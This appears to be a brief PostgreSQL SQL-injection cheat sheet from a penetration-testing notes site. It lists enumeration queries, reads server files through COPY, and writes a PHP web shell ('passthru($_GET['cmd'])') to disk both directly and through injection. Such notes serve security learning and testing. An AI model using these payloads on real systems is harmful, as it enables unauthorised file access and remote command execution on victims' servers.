 ```yaml
---
title: PostgreSQL Common
layout: default
parent: SQL Injection
has_children: false
nav_order: 3
---
```


To list version: `SELECT version()`

Concatenating (concatenate put 2 together: `concat(name1,':',name2) `

To comment, use `xx--`

Show all <b>databases</b>: `select schema_name from information_schema.schemata;`

Show the <b>table name</b>: `select concat(schemaname,':',tablename) FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';`

Show the <b>column name</b> if table name is mytable: `SELECT column_name FROM information_schema.columns where table_name = 'users';`

Finally select object use `select columnname from database.table;`

If you have direct DB access (via `psql`, usually through account postgres), can use the following:\
`\list` to list database\
`\c database name` to use the database\
`\d` to list the tables

To read file when you have direct DB access, use the following:
```
CREATE TABLE demo(t text);
COPY demo from '[FILENAME]';
SELECT * FROM demo;
```

To write file when you have direct DB access, use
```
CREATE TABLE mytable (mycol text);
INSERT INTO mytable(mycol) VALUES ('<? pasthru($_GET[cmd]); ?>');
COPY mytable (mycol) TO '/tmp/test.php';
```

To write file when you only have injection, use
```
copy(select '<?php passthru($_GET[''cmd'']);?>') to '/var/tmp/cmd.php';
```